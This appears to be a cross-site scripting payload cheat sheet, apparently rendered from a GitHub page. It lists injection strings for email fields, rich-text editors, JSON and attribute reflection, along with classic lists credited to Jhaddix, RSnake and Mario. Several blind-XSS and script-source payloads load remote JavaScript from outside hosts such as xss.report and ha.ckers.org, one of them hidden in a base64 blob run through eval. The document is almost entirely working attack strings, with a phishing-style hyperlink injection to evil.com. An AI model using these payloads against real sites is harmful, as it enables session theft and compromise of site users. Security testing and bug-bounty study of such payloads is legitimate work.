 ```html
# XSS in email Section
admin1@example.com<script>alert('xss');</script> 
“><svg/onload=confirm(1)>”@x.y 
"hello<form/><!><details/open/ontoggle=alert(1)>"@gmail.com 
["');alert('XSS');//"]@xyz.xxx 
"<svg/onload=alert(1)>"@gmail.com 
test@gmail.com%27\\%22%3E%3Csvg/onload=alert(/xss/)%3E

# XSS Bypass for Rich Text Editors
<</p>iframe src=javascript:alert()//
<a href="aaa:bbb">x</a>
<a href="j%26Tab%3bavascript%26colon%3ba%26Tab%3blert()">x</a>
[Click on me to claim 100$ vouchers](<https://evil.com>) -> Hyperlink Injection

# XSS Reflected in JSON Format and “{}” Forbidden
test%2Aconsole.log(1337)//’;

# XSS Reflected in `<link>` OR `<input type=hidden>` attribute when add param
/?lol=h0tak88r’accesskey=’x’onclick=’alert(0)’ # But the Victim must click ALT+SHIFT+X



# [Jhaddix](https://github.com/R0X4R/D4rkXSS/blob/master/jhaddix.txt)
'%22--%3E%3C/style%3E%3C/script%3E%3Cscript%3Eshadowlabs(0x000045)%3C/script%3E
<<scr\\0ipt/src=http://xss.com/xss.js></script%27%22--%3E%3C%2Fstyle%3E%3C%2Fscript%3E%3Cscript%3ERWAR%280x00010E%29%3C%2Fscript%3E
' onmouseover=alert(/Black.Spook/)

# [RSnake](https://github.com/R0X4R/D4rkXSS/blob/master/rsnake.txt)
<SCRIPT>alert('XSS');</SCRIPT>
'';!--"<XSS>=&{()}
<SCRIPT SRC=http://ha.ckers.org/xss.js></SCRIPT>   

# [Mario](https://github.com/R0X4R/D4rkXSS/blob/master/mario.txt)
<div id="1"><form id="test"></form><button form="test" formaction="javascript:alert(1)">X</button>//["'`-->]]>]</div><div id="2"><meta charset="x-imap4-modified-utf7">&ADz&AGn&AG0&AEf&ACA&AHM&AHI&AGO&AD0&AGn&ACA&AG8Abg&AGUAcgByAG8AcgA9AGEAbABlAHIAdAAoADEAKQ&ACAAPABi//["'`-->]]>]</div><div id="3"><meta charset="x-imap4-modified-utf7">&<script&S1&TS&1>alert&A7&(1)&R&UA;&&<&A9&11/script&X&>//["'`-->]]>]</div><div id="4">0?<script>

# Blind Xss
'"><script src=//xss.report/s/M8SZT8></script>
"><img src=x id=dmFyIGE9ZG9jdW1lbnQuY3JlYXRlRWxlbWVudCgic2NyaXB0Iik7YS5zcmM9Ii8veHNzLnJlcG9ydC9zL004U1pUOCI7ZG9jdW1lbnQuYm9keS5hcHBlbmRDaGlsZChhKTs&#61; onerror=eval(atob(this.id))>
# Using Burp Collaborator
<https://medium.com/@jr.mayank1999/exploiting-blind-xss-with-burp-collaborator-client-fec38b5fc5e>
```

# **polyglots**
    
